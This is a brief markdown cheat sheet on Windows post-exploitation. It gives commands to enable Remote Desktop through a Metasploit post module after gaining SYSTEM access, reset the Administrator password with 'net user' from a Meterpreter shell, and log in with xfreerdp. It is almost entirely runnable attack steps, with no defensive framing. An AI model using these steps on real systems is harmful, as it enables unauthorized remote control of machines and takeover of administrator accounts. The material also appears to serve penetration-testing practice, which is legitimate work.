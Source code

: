 
````markdown
# Enabling RDP on Windows (Post-Exploitation)

After gaining **NT AUTHORITY/SYSTEM** access:

---

## 1. Enable RDP with Metasploit
```bash
use post/windows/manage/enable_rdp
set SESSION 1
set USER Administrator       # optional
set PASSWORD password_12345  # optional
run
````

---

## 2. Change Password (from Meterpreter)

```bash
> shell
net user Administrator password_111112
exit
```

---

## 3. Connect via RDP

```bash
xfreerdp /v:<target_ip> /u:Administrator /p:password_111112
```

---
